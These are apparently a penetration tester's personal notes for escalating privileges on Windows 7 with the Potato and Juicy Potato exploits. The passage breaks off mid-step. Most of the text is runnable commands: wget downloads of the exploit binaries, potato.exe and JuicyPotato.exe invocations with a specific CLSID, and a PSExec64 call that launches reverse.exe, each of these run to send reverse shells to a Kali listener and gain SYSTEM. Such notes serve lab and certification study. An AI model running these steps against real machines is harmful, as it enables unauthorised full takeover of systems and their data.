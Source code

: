 (Note: These steps are for Windows 7)

1. Copy the potato.exe exploit executable over to Windows.

2. Start a listener on Kali.

![[rlwrap]]

3. Run the exploit:

```command prompt - windows
.\potato.exe -ip $KALI -cmd "reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true - enable_exhaust true
```

4. Wait for a Windows Defender update, or trigger one manually.


#### Juicy Potato

[https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)

####  64 / 32 bit downloads
```bash - kali
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```

```bash - kali
wget https://github.com/ivanitlearning/Juicy-Potato-x86/releases/download/1.2/Juicy.Potato.x86.exe
```

(Note: These steps are for Windows 7)

1. Copy PSExec64.exe and the JuicyPotato.exe exploit executable over to Windows.

2. Start a listener on Kali.

![[rlwrap]]

3. Using an administrator command prompt, use PSExec64.exe to trigger a reverse shell running as the Local Service service account:

[[1._Reverse Shells (WIN)#MSFVenom]]

```command prompt - windows
C:\PrivEsc\PSExec64.exe -i -u "ntauthority\local service" C:\PrivEsc\reverse.exe
```

4. Start another listener on Kali.

![[rlwrap]]

5. Now run the JuicyPotato exploit to trigger a reverse shell running with SYSTEM privileges:

```command prompt - windows
C:\PrivEsc\JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverse.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```

6. If the CLSID ({03ca…) doesn’t work for you, either check this list:
